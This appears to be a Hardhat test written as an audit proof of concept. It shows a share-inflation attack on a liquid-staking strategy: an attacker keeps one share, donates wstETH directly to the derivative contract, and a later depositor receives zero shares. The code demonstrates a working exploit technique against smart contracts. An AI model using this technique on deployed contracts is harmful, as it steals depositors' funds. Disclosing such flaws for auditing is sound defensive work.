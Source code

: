 ```solidity
    const userStrategySigner = strategy.connect(userAccounts[0]);
    const userStrategySigner2 = strategy.connect(userAccounts[1]);
    const ethAmount = "100"; 
    const depositAmount = ethers.utils.parseEther(ethAmount);
    totalStaked = totalStaked.add(depositAmount);
    
    const balanceBefore = await userAccounts[0].getBalance();
    const stakeResult = await userStrategySigner.stake({
      value: depositAmount,
    });

    const mined = await stakeResult.wait();
    const networkFee = mined.gasUsed.mul(mined.effectiveGasPrice);
    networkFeesPerAccount[0] = networkFeesPerAccount[0].add(networkFee);
    totalStakedPerAccount[0] = totalStakedPerAccount[0].add(depositAmount);

    const userSfEthBalance = await strategy.balanceOf(userAccounts[0].address);
    const userSfWithdraw = userSfEthBalance.sub(1);
   
    
    await network.provider.request({
      method: "hardhat_impersonateAccount",
      params: [WSTETH_WHALE],
    });
    const whaleSigner = await ethers.getSigner(WSTETH_WHALE);
    const erc20 = new ethers.Contract(WSTETH_ADRESS, ERC20.abi, userAccounts[0]);

    const wderivative = derivativesAddress[2];
    const erc20BalanceBefore = await erc20.balanceOf(wderivative);

    //remove all but 1 sfToken
    const unstakeResult = await userStrategySigner.unstake(userSfWithdraw);

    const erc20Whale = erc20.connect(whaleSigner);
    const erc20Amount = ethers.utils.parseEther("10");

    // transfer tokens directly to the derivative (done by attacker)
    await erc20Whale.transfer(wderivative, erc20Amount);

    // NEW USER ENTERS
    const ethAmount2 = "1.5"; 
    const depositAmount2 = ethers.utils.parseEther(ethAmount2);
      
    const stakeResu2lt = await userStrategySigner2.stake({
      value: depositAmount2,
    });

    const mined2 = await stakeResult.wait();
     
    // User has 0 sfTokens!
    const userSfEthBalance2 = await strategy.balanceOf(userAccounts[1].address);
    console.log("userSfEthBalance2: ", userSfEthBalance2.toString());

    // Attacker has 1 sfToken
    const AttakcerSfEthBalanc = await strategy.balanceOf(userAccounts[0].address);
    console.log("AttakcerSfEthBalanc: ", AttakcerSfEthBalanc.toString());
    
    //Total supply is 1. 
    const totalSupply = await strategy.totalSupply();
    console.log("totalSupply: ", totalSupply.toString());
    
    
  });
```